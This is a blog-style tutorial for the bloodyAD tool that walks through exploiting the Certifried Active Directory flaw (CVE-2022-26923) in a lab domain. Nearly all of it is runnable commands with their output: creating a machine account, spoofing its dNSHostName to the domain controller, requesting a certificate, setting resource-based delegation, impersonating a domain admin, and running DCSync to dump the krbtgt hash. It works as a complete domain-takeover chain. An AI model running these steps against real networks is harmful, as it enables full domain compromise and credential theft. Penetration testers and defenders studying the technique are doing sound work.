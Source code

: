 ```yaml
---
title: Exploiting Certifried (CVE-2022-26923)
summary: Discover how to exploit the certifried vulnerability easily with bloodyAD.
date: 2024-05-11
aliases: [/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923]
# Featured image
# Place an image named `featured.jpg/png` in this page's folder and customize its options here.
# image:
#   caption: 'Image credit: [**Unsplash**](https://unsplash.com)'

authors:
  - soka
  - admin

tags:
  - Active Directory
  - Authentication
  - CVE
  - Exploit

categories:
  - bloodyAD
---
```

A new ADCS privesc was released: Certifried (CVE-2022-26923) with this [blogpost](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4) after Microsoft patched it.
Here is an example on how to exploit this vulnerability with [bloodyAD](https://github.com/CravateRouge/bloodyAD) and PKINIT not supported from Linux.

## Linux

We need to own a computer, either we pwned one or we can create one if `ms-DS-MachineAccountQuota`>0:

```ps1
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 get object 'DC=crashlab,DC=local' --attr ms-DS-MachineAccountQuota                     

distinguishedName: DC=crashlab,DC=local
ms-DS-MachineAccountQuota: 10
```

We create a Computer object `cve` in the LDAP:
```ps1
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 addComputer cve 'CVEPassword1234*'

[+] cve created
```

Then we set the attribute `dNSHostName` (empty when we created the object) to match the Domain Controller DNS Hostname: `CRASHDC.crashlab.local`.

```ps1
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 set object 'CN=cve,CN=Computers,DC=crashlab,DC=local' dNSHostName -v CRASHDC.crashlab.local

[+] CN=cve,CN=Computers,DC=crashlab,DC=local's dnsHostName has been updated
```

To check if the attribute has been correctly set:
```ps1
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 get object 'CN=cve,CN=Computers,DC=crashlab,DC=local' --attr dNSHostName                  

distinguishedName: CN=cve,CN=Computers,DC=crashlab,DC=local
dNSHostName: CRASHDC.crashlab.local
```

Now we can use [Certipy](https://github.com/ly4k/Certipy) to request a certificate for the computer `cve`:
```ps1
# 10.100.10.13 is the ADCS server
> certipy req 'crashlab.local/cve$:CVEPassword1234*@10.100.10.13' -template Machine -dc-ip 10.100.10.12 -ca crashlab-ADCS-CA
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 12
[*] Got certificate with DNS Host Name 'CRASHDC.crashlab.local'
[*] Saved certificate and private key to 'crashdc.pfx'

```

Now we'll try to get a TGT using [Certipy](https://github.com/ly4k/Certipy) with the certificate requested above:
```ps1
> certipy auth -pfx ./crashdc.pfx -dc-ip 10.100.10.12
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Using principal: crashdc$@crashlab.local
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```

PKINIT doesn't seem to work on this AD, let's try RBCD technique with [bloodyAD](https://github.com/CravateRouge/bloodyAD) and its certificate authentication feature:
```ps1
> openssl pkcs12 -in crashdc.pfx -out crashdc.pem -nodes
> python bloodyAD.py -d crashlab.local  -c ":crashdc.pem" -u 'cve$' --host 10.100.10.12 add rbcd 'CRASHDC$' 'CVE$'
[+] CVE$ SID is: S-1-5-21-1945936656-2616711065-1665664270-1134             
[+] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity correctly set        
[+] Delegation rights modified successfully!                                                                           
CVE$ can now impersonate users on CRASHDC$ via S4U2Proxy
```

Delegation rights are set up, we can now use [impacket](https://github.com/SecureAuthCorp/impacket) `getST.py` to impersonate a Domain admin (`emacron` in our case) on CRASHDC$ and fetch a TGT: 
```ps1
> getST.py -spn LDAP/CRASHDC.CRASHLAB.LOCAL -impersonate emacron -dc-ip 10.100.10.12 'crashlab.local/cve$:CVEPassword1234*'                 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation                                                               
                                                                                                                       
[*] Getting TGT for user                                                                                               
[*] Impersonating emacron                                                                                              
[*]     Requesting S4U2self                                                                                            
[*]     Requesting S4U2Proxy
[*] Saving ticket in emacron.ccache

> cp emacron.ccache /tmp/
> export KRB5CCNAME=/tmp/emacron.ccache
```

Finally we'll use [impacket](https://github.com/SecureAuthCorp/impacket) `secretsdump.py` to perform a DCSync with the exported TGT:
```ps1

> secretsdump.py -user-status -just-dc-ntlm -just-dc-user krbtgt 'crashlab.local/emacron@crashdc.crashlab.local' -k -no-pass -dc-ip 10.100.10.12 -target-ip 10.100.10.12 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:492850f62466ef2bd1f4a56f112e01f1::: (status=Disabled)
[*] Cleaning up...
```
